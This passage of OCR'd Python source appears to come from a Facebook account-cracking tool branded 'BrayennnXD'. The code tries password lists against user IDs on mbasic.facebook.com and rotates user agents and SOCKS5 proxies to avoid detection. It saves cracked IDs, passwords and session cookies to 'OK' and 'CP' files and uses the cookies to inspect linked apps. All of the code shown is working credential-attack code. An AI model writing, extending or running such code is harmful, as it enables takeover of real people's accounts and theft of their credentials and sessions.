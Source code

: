                                          cetak(statuscp1) 
                                         open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                         akun.append(idf+'|'+pw) 
                                         break 
                                 elif 'ya' in gabriel: 
                                         cp+=1 
                                         print('\n') 
                                         statuscp = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] USERAGENT : {ua} ' 
                                         statuscp1 = nel(statuscp, width=90, style='bold yellow', title='BrayennnXD-CP') 
                                         cetak(statuscp1) 
                                         open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                         akun.append(idf+'|'+pw) 
                                         ceker(idf,pw) 
                                         break 
                         elif "c_user" in ses.cookies.get_dict().keys(): 
                                 if 'no' in taplikasi: 
                                         ok+=1 
                                         coki=po.cookies.get_dict() 
                                         kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]) 
                                         print('\n') 
                                         statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {kuki}' 
                                         statusok1 = nel(statusok, width=90, style='bold green', title='BrayennnXD-OK') 
                                         cetak(statusok1) 
                                         open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                         break 
                                 elif 'ya' in taplikasi: 
                                         ok+=1 
                                         coki=po.cookies.get_dict() 
                                         kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]) 
                                         print('\n') 
                                         statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {kuki}' 
                                         statusok1 = nel(statusok, width=90, style='bold green', title='BrayennnXD-OK') 
                                         cetak(statusok1) 
                                         open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                         cek_apk(kuki) 
                                         break 
  
                         else: 
                                 continue 
                 except requests.exceptions.ConnectionError: 
                         time.sleep(31) 
         loop+=1 
  
 def validate2(idf,pwv): 
         global loop,ok,cp 
         bo = random.choice([m,k,h,b,u,x]) 
         ua = random.choice(ugen) 
         ua2 = random.choice(ugen2) 
         ses = requests.Session() 
         prog.update(des,description=f"[bold green]Validate V2[bold white] {loop}/{len(id)} OK-:[bold green]{ok}[/] CP-:[bold yellow]{cp}[/]") 
         prog.advance(des)  
         for pw in pwv: 
                 try: 
                         if 'ya' in ualuh: ua = ualu[0] 
                         nip=random.choice(prox) 
                         proxs= {'http': 'socks5://'+nip} 
                         ses.headers.update({'Host': 'mbasic.facebook.com','cache-control': 'max-age=0','sec-ch-ua-mobile': '?1','upgrade-insecure-requests': '1','user-agent': ua,'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9','sec-fetch-site': 'same-origin','sec-fetch-mode': 'cors','sec-fetch-dest': 'empty','accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7'}) 